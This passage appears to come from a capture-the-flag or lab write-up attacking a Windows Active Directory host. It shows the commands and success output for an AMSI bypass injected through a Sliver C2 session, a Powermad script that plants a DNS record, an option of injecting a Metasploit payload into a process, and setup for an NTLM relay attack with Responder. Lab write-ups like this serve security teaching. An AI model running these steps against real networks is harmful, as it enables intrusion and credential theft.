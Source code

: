 To bypass this, I just made a .ps1 script which loads Powermad and executes ```New-ADIDNSNode -Tombstone -Verbose -Node WIN-PH5EYU9RDZ0 -DATA 10.8.2.163``` at the same time (yes, as weird as it may seem, it works)

We could also do this: spawn notepad, with ```execute```, inject the msf payload in it, with ```msf-inject``` after this, go into meterpreter and load powershell then use the ```inject-amsi-bypass``` on the same notepad process which now will make that process "AMSI free" after this, use ```powershell-import``` to import powermad and ```powershell_shell``` to spawn powershell in meterpreter

But we will use the first solution which is the simplest, so we can bypass the amsi on the process where we are and execute my .ps1 file like that :

```bash
sliver (sidecar-http) > getpid

> 908

sliver (sidecar-http) > inject-amsi-bypass 908

[*] Successfully executed inject-amsi-bypass (coff-loader)
[*] Got output:
Attempting to patch AMSI in remote process with PID: 908Success - Patched AMSI.AmsiOpenSession in remote process: PID:908
```
```powershell
# toto.ps1
. .\Powermad ; New-ADIDNSNode -Tombstone -Verbose -Node WIN-PH5EYU9RDZ0 -DATA 10.8.2.163
```
![alt text](<../assets/image_sidecar/POWERMAD SUCCESS.png>)

Ok now for those who made MIST on HTB, this will bring back memories :

We gonna use this pull request : [https://github.com/fortra/impacket/pull/1402](https://github.com/fortra/impacket/pull/1402)

Let's start the attack with Ntlmrelayx, Responder and SpoolSample :

First config this file ```cat /etc/responder/Responder.conf``` like that :

```console
; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = Off
DNS = On
LDAP = Off
DCERPC = On
WINRM = On
```
